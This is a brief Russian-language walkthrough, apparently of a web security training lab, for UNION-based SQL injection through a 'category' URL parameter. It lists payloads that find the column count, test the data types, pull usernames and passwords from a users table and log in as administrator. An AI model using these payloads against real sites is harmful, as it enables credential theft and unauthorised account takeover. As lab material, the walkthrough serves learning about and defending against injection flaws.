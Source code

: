 1) Переходим в категорию Lifestyle
2) Меняем запрос и видим, что таблица состоит из двух столбцов:
category=Lifestyle'+UNION+SELECT+NULL,NULL--
3) Убеждаемся, что тип данных - строки:
category=Lifestyle'+UNION+SELECT+'a','b'--
4) Забираем данные из таблицы users:
category=Lifestyle'+UNION+SELECT+username,password+FROM+users--
5) Находим administrator, забираем пароль и входим в систему как администратор.